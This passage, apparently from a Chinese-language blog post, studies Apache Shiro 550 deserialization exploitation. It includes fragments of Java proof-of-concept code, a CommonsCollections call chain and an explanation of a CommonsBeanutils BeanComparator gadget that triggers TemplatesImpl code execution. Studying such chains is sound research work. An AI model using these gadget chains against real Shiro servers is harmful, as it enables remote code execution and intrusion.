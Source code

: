 ```java
        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc_shiro"));
            outputStream.writeObject(expMap);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc_shiro"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }

    }
}
```
调用链：
```
HashMap.put()
HashMap.hash()
  TiedMapEntry.hashCode()
  TiedMapEntry.getValue()
    LazyMap.get()
      InvokerTransformer.transform()
        TemplatesImpl.newTransformer()
          TemplatesImpl.getTransletInstance()
            TemplatesImpl.defineTransletClasses()  //定义类
```


参考：
[强网杯“彩蛋”——Shiro 1.2.4(SHIRO-550)漏洞之发散性思考](https://blog.zsxsoft.com/post/35)
[Java反序列化利用链分析之Shiro反序列化 ](https://www.anquanke.com/post/id/192619)
[Shiro 550 漏洞学习（一）](http://wjlshare.com/archives/1542)
[shiro550反序列化分析踩坑](http://w4nder.top/index.php/2021/03/09/shiro550/)

### CommonsBeanutils链
其实shiro自带一个CommonsBeanutils1.8.3，那么我们只要能构造一个CommonsBeanutils链的gadget，那么就可以直接无CommonsCollections打shiro了

在CB包中提供了一个静态方法`PropertyUtils#getProperty`，让使用者可以直接调用任意JavaBean的getter方法
![](https://img-blog.csdnimg.cn/95c9c24b17f54c7bbfa8a8af20199a64.png)
此时，CommonsBeanutils会自动找到name属性的getter方法， 然后调用，获得返回值
并且看到类`org.apache.commons.beanutils.BeanComparator`的compare方法
![](https://img-blog.csdnimg.cn/f394a1c1f00f4a56800dd9e8569c9911.png)
这个方法传入两个对象，如`property`为空，则直接比较这两个对象；如果`property`不为空，则用 `PropertyUtils.getProperty`分别取这两个对象的`property`属性，比较属性的值

看到`PropertyUtils.getProperty(o1,property)`这段代码，当`o1`是一个`TemplatesImpl`对象，而`property`的值为`outputProperties`时，将会自动调用getter，也就是`TemplatesImpl#getOutputProperties()`方法，触发代码执行
```
TemplatesImpl#getOutputProperties() -> TemplatesImpl#newTransformer() -> TemplatesImpl#getTransletInstance() -> TemplatesImpl#defineTransletClasses() -> TransletClassLoader#defineClass()
```
那么我们新建一个TemplatesImpl，根据上面的分析，我们需要有一个`org.apache.commons.beanutils.BeanComparator`，new一个出来，然后通过`PropertyUtils.getProperty`对队列进行比较，触发`compare()`方法， 而当`property`不为空的时候调用`TemplatesImpl#getOutputProperties`方法 实现反序列化利用
```java
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
```